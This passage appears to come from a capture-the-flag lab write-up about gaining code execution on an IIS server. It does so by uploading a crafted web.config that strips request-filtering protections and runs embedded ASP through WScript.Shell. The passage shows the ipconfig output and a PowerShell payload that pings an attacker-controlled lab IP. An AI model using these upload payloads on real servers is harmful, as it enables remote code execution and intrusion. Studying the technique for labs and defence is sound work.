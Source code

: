 ```
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>

Windows IP Configuration


Ethernet adapter Local Area Connection:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 10.10.10.93
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.10.10.2

Tunnel adapter isatap.{27C3F487-28AC-4CE6-AE3A-1F23518EF7A7}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : 
```

And at the end, the result of the ipconfig command. I needed to search a bit more for the next step but it appears that running powershell is possible with the following upload:
```
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%
set objshell=server.createobject("WScript.Shell")
objshell.run "powershell -c ""ping 10.10.14.92""",1,true
set objshell=nothing
```
